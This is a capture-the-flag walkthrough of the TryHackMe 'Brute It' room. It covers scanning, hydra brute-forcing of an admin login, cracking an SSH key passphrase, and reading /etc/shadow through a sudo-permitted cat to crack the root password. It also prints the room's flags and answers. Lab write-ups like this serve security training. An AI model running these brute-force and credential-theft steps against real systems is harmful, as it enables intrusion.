

## Index

1. [Setup](#setup)
2. [Reconnaissance](#reconnaissance)
3. [Gaining Access](#gaining-access)
4. [Privilege Escalation](#privilege-escalation)
5. [Conclusion](#conclusion)

## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using `openvpn` to connect to the server. Here's the command:

```
$ sudo openvpn --config NovusEdge.ovpn
```

## Reconnaissance

Conducting some common port scans gives us the following details:
```shell-session
$ rustscan -b 4500 -a TARGET_IP -r 1-65535 --ulimit 5000 -t 2000 -- -oN rustscan_port_scan.txt
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack


$ rustscan -b 4500 -a TARGET_IP -p 22,80 --ulimit 5000 -t 2000 -- -sV -oN rustscan_service_scan.txt
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


$ rustscan -b 4500 -a TARGET_IP -p 22,80 --ulimit 5000 -t 2000 -- --script=vuln -oN rustscan_vuln_scan.txt
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
| http-cookie-flags: 
|   /admin/: 
|     PHPSESSID: 
|       httponly flag not set
|   /admin/index.php: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-enum: 
|   /admin/: Possible admin folder
|_  /admin/index.php: Possible admin folder
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
```

> How many ports are open?
> 
> Answer: `2`


> What version of SSH is running?
> 
> Answer: `OpenSSH 7.6p1`


> What version of Apache is running?
> 
> Answer: `2.4.29`


OS detection by `nmap` does not give us much to go on what linux distro is being used on the target, but visiting the web server on port 80 using a browser sure gives us the answer!
> Which Linux distribution is running?
> 
> Answer: `Ubuntu`


Time for some directory enumeration:
```shell-session
$ gobuster dir -t 128 -u http://TARGET_IP/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -o gobuster_dir2_3_small.txt
$ cat gobuster_dir2_3_small.txt 
/admin                (Status: 301) [Size: 312] [--> http://TARGET_IP/admin/]
```

> What is the hidden directory?
> 
> Answer: `/admin`

```shell-session
$ hydra -l admin -P /usr/share/seclists/Passwords/rockyou.txt -t 64 TARGET_IP http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid"
[80][http-post-form] host: TARGET_IP   login: admin   password: xavier
```

> What is the user:password of the admin panel?
> 
> Answer: `admin:xavier`

Logging into the portal takes us to the following page:



Clicking on the _RSA private key_ hyperlink takes us to: `http://TARGET_IP/admin/panel/id_rsa`, which contains a RSA private key. Saving that into a file, we can now log into the ssh service on the target using that and the username: `john` (inspect the page to see why :P)

## Gaining Access

```shell-session
$ ssh -i bruteit_idrsa  john@TARGET_IP
Enter passphrase for key 'bruteit_idrsa':
```

Since the file requires a password, let's crack it with `ssh2john` and `john`:

```shell-session
$ ssh2john bruteit_idrsa > hash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
...
rockinroll       (bruteit_idrsa)
```


> What is John's RSA Private Key passphrase?
> 
> Answer: `rockinroll`


Let's now log into the target using this passphrase:
```shell-session
$ ssh -i bruteit_idrsa  john@TARGET_IP
Enter passphrase for key 'bruteit_idrsa': rockinroll

john@bruteit:~$ ls
user.txt
john@bruteit:~$ cat user.txt 
THM{a_password_is_not_a_barrier}
```


> `user.txt`
> 
> Answer: `THM{a_password_is_not_a_barrier}`

Also...
> Web flag
> 
> Answer: `THM{brut3_f0rce_is_e4sy}`


## Privilege Escalation

Let's get some info before we can proceed:
```shell-session
john@bruteit:~$ uname -a
Linux bruteit 4.15.0-118-generic #119-Ubuntu SMP Tue Sep 8 12:30:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux

john@bruteit:~$ cat /etc/issue
Ubuntu 18.04.4 LTS \n \l

john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat


john@bruteit:~$ find / -perm /u=s,g=s 2>/dev/null
/bin/fusermount
/bin/umount
/bin/mount
/bin/su
/bin/ping

...
```

Since we can run `cat` without a password as root, let's get the `passwd` and `shadow` files to crack passwords from...
```shell-session
## Also, you can just do this: (lmao)
john@bruteit:~$ sudo cat /root/root.txt
...


john@bruteit:~$ sudo cat /etc/passwd
...

john@bruteit:~$ sudo cat /etc/shadow
...
```

Save the contents to a file and unshadow the `shadow` file, then we crack it all using `hashcat`/`john`:
```shell-session
$ unshadow passwd shadow > unshadowed
$ john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed
football         (root) 

On the `ssh` session:
john@bruteit:~$ su 
Password: football
root@bruteit:/home/john# 
root@bruteit:/home/john# cd
root@bruteit:~# ls
root.txt
root@bruteit:~# cat root.txt 
THM{pr1v1l3g3_3sc4l4t10n}
```

> What is the root's password?
> 
> Answer: `football`

> `root.txt`
> 
> Answer: `THM{pr1v1l3g3_3sc4l4t10n}`

## Conclusion
If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [Brute It](https://tryhackme.com/room/bruteit) by [ReddyyZ](https://tryhackme.com/p/ReddyyZ)
